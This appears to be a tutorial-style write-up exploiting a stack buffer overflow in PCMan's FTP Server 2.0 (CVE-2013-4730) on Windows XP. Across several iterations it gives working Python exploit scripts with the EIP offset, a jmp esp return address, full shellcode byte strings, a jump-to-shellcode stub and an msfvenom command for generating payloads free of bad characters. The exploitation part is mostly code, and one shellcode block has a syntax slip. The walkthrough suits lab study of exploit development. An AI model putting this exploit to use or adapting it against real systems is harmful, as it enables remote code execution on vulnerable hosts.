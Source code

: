 # PCMan's FTP Server 2.0 - Win XP SP3 - Buffer Overflow

-   cve details: CVE-2013-4730
-   Target: PCMan's FTP Server 2.0
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger

I run target and check it. it's a program for use FTP.I open a .py file and in first time,I need a socket for connection with this program.

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

exploit="A"*100

s.send(exploit)
print s.recv(1024)
s.close()
```

After run exploit.py ,program get my buffer:

![](/1.jpg)]


When Buffer increase to 3000, program crash and EIP chang to 41414141 :

![](/2.jpg)]


Now I run Immunity and use Mona for detecte exactly location of overflow . For this I run !mona pc 3000:

![](/3.jpg)]

After create pattern ,I copy Ascii section in my exploit (instead of "A"*3000) and run target in Immunity and run exploit.py . Target crash and I copy EIP to !mona po EIP:


![](/4.jpg)]

Buffer is 2011 and I need check it for this my exploit is: 

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

exploit="A"*2011 + "BBBB" + "C"*100

s.send(exploit)
print s.recv(1024)
s.close()
```

everything is OK. EIP=42424242 and after it we have in Stack. 

![](/5.jpg)]

Now I need add shellcode and find address for "jmp esp" to point stack. My shellcode is run calc and its OK and for address I use MONA:

![](/6.jpg)]

after find jump to stack, Now I complet my exploit:

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

exploit="A"*2011 + "\xd9\x2f\xe3\x74" + "\x90"*8+("\x31\xc9\xda\xd4\xb1\x33\xbd\xec\x71\x94\xde\xd9\x74\x24\xf4"
"\x5f\x31\x6f\x15\x03\x6f\x15\x83\x2b\x75\x76\x2b\x4f\x9e\xff"
"\xd4\xaf\x5f\x60\x5c\x4a\x6e\xb2\x3a\x1f\xc3\x02\x48\x4d\xe8"
"\xe9\x1c\x65\x7b\x9f\x88\x8a\xcc\x2a\xef\xa5\xcd\x9a\x2f\x69"
"\x0d\xbc\xd3\x73\x42\x1e\xed\xbc\x97\x5f\x2a\xa0\x58\x0d\xe3"
"\xaf\xcb\xa2\x80\xed\xd7\xc3\x46\x7a\x67\xbc\xe3\xbc\x1c\x76"
"\xed\xec\x8d\x0d\xa5\x14\xa5\x4a\x16\x25\x6a\x89\x6a\x6c\x07"
"\x7a\x18\x6f\xc1\xb2\xe1\x5e\x2d\x18\xdc\x6f\xa0\x60\x18\x57"
"\x5b\x17\x52\xa4\xe6\x20\xa1\xd7\x3c\xa4\x34\x7f\xb6\x1e\x9d"
"\x7e\x1b\xf8\x56\x8c\xd0\x8e\x31\x90\xe7\x43\x4a\xac\x6c\x62"
"\x9d\x25\x36\x41\x39\x6e\xec\xe8\x18\xca\x43\x14\x7a\xb2\x3c"
"\xb0\xf0\x50\x28\xc2\x5a\x3e\xaf\x46\xe1\x07\xaf\x58\xea\x27"
"\xd8\x69\x61\xa8\x9f\x75\xa0\x8d\x40\x94\x61\xfb\xe8\x01\xe0"
"\x46\x75\xb2\xde\x84\x80\x31\xeb\x74\x77\x29\x9e\x71\x33\xed"
"\x72\x0b\x2c\x98\x74\xb8\x4d\x89\x16\x5f\xde\x51\xf7\xfa\x66"
"\xf3\x07")


s.send(exploit)
print s.recv(1024)
s.close()
```

After run exploit on the target , Program only crash and it not run calc. I check it and I find problem.In my shellcode , there are some bad characters.
Badcharacters are some charactesr ,because broken shellcode. This characters is defferent for evry program. For example,in the bruteforce program,our input
like this: user:pass , program read input and split user and password with ":". Now if we exploit this program and in our shellcode have ":",shellcode broken
and don't run. For solve this problem we nhave to steps: 1- detect Badcharacters 2- remove it.
For first step I use Mona and second step use msfvenum.

For detect Badcharacters have 2 method: 1- manually 2- Automatically. In manually ,We create all 256 characters and add to exploit and Run it and check in stack.
And in Automatically method , using tools like Mona. I use Mona for this stage. For detect Badcharacters with Mona,we are several steps:
1- Create a folder like Mona and run this Command: !mona config -set workingfolder c:\mona\%p   (this step optionally. %p use for create automatically folder by project name)
2- Create all 256 Byte: !mona bytearray (its create in workingfolder c:/mona/projectname)
3- compare bytearray file with program buffer : !mona compare -f C:\mona\PCManFTPD2\bytearray.bin -a stack_address
4- Mona check badcharacters and show.
5- remove badcharacters from bytearray and create new witout it: !mona bytearray -cpb 'Badchar'
6- go to steps 3



![](/7.jpg)

![](/8.jpg)

now I need change my exploit. first copy it to c:/mona and change it to :

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))


badchar=open('PCManFTPD2/bytearray.bin','rb').read()
exploit= "USER: "+"A"*2005 + "\xd9\x2f\xe3\x74" + "\x90"*8 + badchar


s.send(exploit)
print s.recv(1024)
s.close()


```

Now run target in Immunity and run exploit.py. after crash , I use compare command. for this command I need address (stack address)


![](/9.jpg)


Now I run compare command ,and Mona detect badchar : 

![](/10.jpg)


00 is badcharacters. Now I create new Bytearray without this char:

![](/11.jpg)


I repeat this steps and for some case Mona don't work correctlly. For this reason, I use manully method. I run exploit and check characters without
Mona. If char is valid in buffer is ok but if char change to 0000 or corrupt buffer it's badchar. I find \x00\x0a\x0d\xff.

Now we need a shellcode without this characters. I use msfvenum.

```
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe  -f c -b '\x00\x0a\x0d\xff'
```

![](/12.jpg)

Now all thing is OK. I change exploit to :

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

exploit="A"*2011 + "\xd9\x2f\xe3\x74" + "\x90"*8+(\xbb\xb2\x24\x22\xfb\xdb\xd2\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x31\x31\x5a\x13\x83\xc2\x04\x03\x5a\xbd\xc6\xd7\x07\x29\x84"
"\x18\xf8\xa9\xe9\x91\x1d\x98\x29\xc5\x56\x8a\x99\x8d\x3b\x26"
"\x51\xc3\xaf\xbd\x17\xcc\xc0\x76\x9d\x2a\xee\x87\x8e\x0f\x71"
"\x0b\xcd\x43\x51\x32\x1e\x96\x90\x73\x43\x5b\xc0\x2c\x0f\xce"
"\xf5\x59\x45\xd3\x7e\x11\x4b\x53\x62\xe1\x6a\x72\x35\x7a\x35"
"\x54\xb7\xaf\x4d\xdd\xaf\xac\x68\x97\x44\x06\x06\x26\x8d\x57"
"\xe7\x85\xf0\x58\x1a\xd7\x35\x5e\xc5\xa2\x4f\x9d\x78\xb5\x8b"
"\xdc\xa6\x30\x08\x46\x2c\xe2\xf4\x77\xe1\x75\x7e\x7b\x4e\xf1"
"\xd8\x9f\x51\xd6\x52\x9b\xda\xd9\xb4\x2a\x98\xfd\x10\x77\x7a"
"\x9f\x01\xdd\x2d\xa0\x52\xbe\x92\x04\x18\x52\xc6\x34\x43\x38"
"\x19\xca\xf9\x0e\x19\xd4\x01\x3e\x72\xe5\x8a\xd1\x05\xfa\x58"
"\x96\xfa\xb0\xc1\xbe\x92\x1c\x90\x83\xfe\x9e\x4e\xc7\x06\x1d"
"\x7b\xb7\xfc\x3d\x0e\xb2\xb9\xf9\xe2\xce\xd2\x6f\x05\x7d\xd2"
"\xa5\x66\xe0\x40\x25\x47\x87\xe0\xcc\x97")


s.send(exploit)
print s.recv(1024)
s.close()
```

After run exploit.py, It don't run calc.exe. I check it and understand my buffer is small for shellcode and shellcode is broken.
for solve this problem I change junk and shellcode and after EIP I use some command to go my shellcode.

junk + EIP + NOP + Shellcode -> NOP + shellcode + EIP + NOP + jumptoshellcode

For this only need jumptoshellcode and implement it I use this command "sub    esp,0x5e " and "jmp    esp". But here is I have two steps:
1- change this Assambly to opcode(x86) -> use Immunity and add this to a line or use this [site](https://defuse.ca/online-x86-assembler.htm)
2- How many ,I need to recive my shellcode. -> I use manually and check it.

In the final,My exploit is :

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))


shellcode=("\xbf\x9f\x6d\xb4\x7d\xda\xcb\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1"
"\x31\x31\x7a\x13\x03\x7a\x13\x83\xea\x63\x8f\x41\x81\x73\xd2"
"\xaa\x7a\x83\xb3\x23\x9f\xb2\xf3\x50\xeb\xe4\xc3\x13\xb9\x08"
"\xaf\x76\x2a\x9b\xdd\x5e\x5d\x2c\x6b\xb9\x50\xad\xc0\xf9\xf3"
"\x2d\x1b\x2e\xd4\x0c\xd4\x23\x15\x49\x09\xc9\x47\x02\x45\x7c"
"\x78\x27\x13\xbd\xf3\x7b\xb5\xc5\xe0\xcb\xb4\xe4\xb6\x40\xef"
"\x26\x38\x85\x9b\x6e\x22\xca\xa6\x39\xd9\x38\x5c\xb8\x0b\x71"
"\x9d\x17\x72\xbe\x6c\x69\xb2\x78\x8f\x1c\xca\x7b\x32\x27\x09"
"\x06\xe8\xa2\x8a\xa0\x7b\x14\x77\x51\xaf\xc3\xfc\x5d\x04\x87"
"\x5b\x41\x9b\x44\xd0\x7d\x10\x6b\x37\xf4\x62\x48\x93\x5d\x30"
"\xf1\x82\x3b\x97\x0e\xd4\xe4\x48\xab\x9e\x08\x9c\xc6\xfc\x46"
"\x63\x54\x7b\x24\x63\x66\x84\x18\x0c\x57\x0f\xf7\x4b\x68\xda"
"\xbc\xa4\x22\x47\x94\x2c\xeb\x1d\xa5\x30\x0c\xc8\xe9\x4c\x8f"
"\xf9\x91\xaa\x8f\x8b\x94\xf7\x17\x67\xe4\x68\xf2\x87\x5b\x88"
"\xd7\xeb\x3a\x1a\xbb\xc5\xd9\x9a\x5e\x1a")

numberof=2011-len(shellcode)
jumptoshellcode="\x83\xec\x5e\x83\xec\x5e\x83\xec\x5e\x83\xec\x5e\xff\xe4\x90\x90"
exploit= numberof * '\x90' + shellcode + "\xd9\x2f\xe3\x74" + "\x90"*8 + jumptoshellcode



s.send(exploit)
print s.recv(1024)
s.close()

```
![](/13.jpg)
